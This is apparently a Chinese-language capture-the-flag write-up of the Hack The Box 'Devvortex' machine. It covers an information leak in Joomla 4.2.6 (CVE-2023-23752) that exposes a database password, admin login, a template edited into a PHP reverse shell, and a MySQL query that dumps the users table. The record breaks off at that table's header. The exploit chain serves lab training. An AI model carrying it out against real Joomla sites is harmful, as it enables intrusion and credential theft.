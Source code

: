 
## Initial Access

继续搜索“joomla 4.2.6 exploit”可发现此文章：<https://vulncheck.com/blog/joomla-for-rce>

### PoC (CVE-2023-23752)

根据上述文章访问 `/language/en-GB/langmetadata.xml` 获得一个凭据：`lewis:P4ntherg0t1n5r3c0n##`

在administrator界面尝试登录失败，不过 `Lewis:P4ntherg0t1n5r3c0n##` 可以。  
依旧根据上面文章的思路，登录进去后找templates，将其修改为PHP的反弹shell。最终发现 `error.php` 是可编辑的。开启监听，更改代码后访问 `/templates/cassiopeia/error.php`，成功接收反弹shell。

![HTB-Devvortex-joomla-templates](HTB-Devvortex-joomla-templates.png)


```bash
www-data@devvortex:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## flag: user

如上面文章所说，之前的凭据是本地MySQL的。看了眼端口确实有：
```bash
www-data@devvortex:/$ netstat -anotl
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
 ...
```

于是进MySQL准备拖库：
```bash
www-data@devvortex:/$ mysql -u lewis -p joomla
Enter password: 
 (...)
mysql> show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
 (...)
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)

mysql> select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
```